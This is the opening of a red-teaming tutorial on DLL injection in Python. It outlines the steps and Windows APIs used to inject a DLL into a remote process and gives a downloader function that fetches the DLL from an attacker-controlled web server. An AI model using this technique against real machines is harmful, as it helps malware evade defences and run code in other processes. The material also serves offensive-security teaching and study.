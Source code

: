 ```yaml
---
title: "Reflective DLL Injection in Python3"
date: 2021-12-19
images: [""]
tags: ["red teaming", "python"]
draft: false
---
```


# What is DLL Injection?
DLL Injection is a common evasion technique used by many malware samples. We can execute shellcode in memory of our current process, and inject shellcode into remote processes with process injection. But instead of just shellcode, we can also inject an entire DLL into a remote process as well. DLL injection is the process of inserting code into a running process. DLLs are meant to be loaded as needed at run time. However, we can still inject assembly in other forms (exe, etc). 

# Approach
- Attach to the process
- Allocate memory within the process
- Copy the DLL path into process memory
- Create a thread within the process to execute your DLL


We will use the following APIs to perform this technique. 

- OpenProcess()
- VirtualAllocEx()
- WriteProcessMemory()
- LoadLibraryA()
- CreateRemoteThread(), NtCreateThreadEx, etc.

There are a few options when it comes to executing our DLL. For this post, I will use CreateRemoteThread(). The problem is, we can't simply give the names of our DLL to these functions. We have to provide a memory address to start the execution. We will perform the allocate and copy steps to obtain space within the remote process' memory.

In order to load DLLs or executables, we will use LoadLibraryA() to take a filename as its parameter and do magical things. 

# Downloading the DLL
First, we'll create a function that will download the DLL from our attacking web server and write it to disk. 

We can use urllib.request for this:
```
def downloader(url, dllname):
    urllib.request.urlretrieve(url, dllname)
    dll = bytes(dllname.encode())
    return dll
```
